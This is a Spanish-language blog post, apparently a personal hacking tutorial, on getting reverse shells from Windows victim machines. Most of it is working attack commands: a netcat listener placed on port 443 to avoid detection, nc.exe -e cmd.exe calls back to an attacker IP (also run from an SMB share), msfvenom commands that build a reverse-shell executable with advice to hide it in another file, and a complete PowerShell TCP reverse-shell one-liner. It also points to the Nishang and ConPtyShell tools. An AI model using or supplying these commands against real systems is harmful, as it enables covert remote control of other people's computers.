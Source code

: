 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

Si la máquina víctima es de `32 bits` usaremos el primero y si es de `64` usaremos el segundo.

Con el siguiente comando creamos un `ejecutable` que si lo ejecutamos en la máquina víctima nos mandará una `reverse shell`. Claro, para eso tendremos que `ocultarlo` dentro de otro archivo, o también podríamos ponerlo en un servidor web hecho con python y que la máquina víctima lo descargue y lo ejecute, pero no me quiero extender mas aquí.

```
> msfvenom -p <payload> LHOST=<ip> LPORT=443 -a x<arquitectura> -f exe -o shell.exe
```

## Powershell Reverse Shell One-Liner

En `Powershell` que es un lenguaje muy potente que maneja `Windows` hay un comando con el que nos podemos mandar una reverse shell con una única linea de codigo:

```
> $client = New-Object System.Net.Sockets.TCPClient("<tu IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

No es muy recomendable utilizar este metodo para obtener acceso desde una `webshell` o desde una `cmd`, pero `es muy util para Rubber Duckys`.

## Nishang

Nishang es un `repositorio` el cual contiene una gran cantidad de `scripts` de powershell usados para la seguridad ofensiva. Su repositorio oficial es el que podéis visitar en este enlace: `https://github.com/samratashok/nishang`

Entre todos los scripts que tiene, `hay uno` en concreto bastante famoso llamado `Invoke-PowerShellTcp.ps1`, el cual, como no, `nos invoca una reverse shell con una powershell`:

![](/assets/images/web-hacking/reverse-shell-windows/script.png)

El script no es más que una `función en powershell`, por lo que tenemos dos opciones:

```
· Descargar y cargar el script de forma local, y posteriormente ejecutar la función con los argumentos para una reverse shell.
· Cargar el script de forma remota y que en la misma acción donde lo carga, posteriormente ejecute la función con los argumentos para la reverse shell, todo en un paso.
```

## ConPtyShell

ConPtyShell es una herramienta la cual `nos permite obtener una shell completamente interactiva` en sistemas Windows. Esto quiere decir que podemos hacer `Ctrl+C` sin peligro a perder la shell o podemos recuperar comandos usados previamente usando la flechita hacia arriba. Su repositorio oficial lo podéis encontrar en este enlace: `https://github.com/antonioCoco/ConPtyShell`

La forma de `ejecutarlo` es la misma que con el script anterior, ya que ambos son scripts en `powershell`.



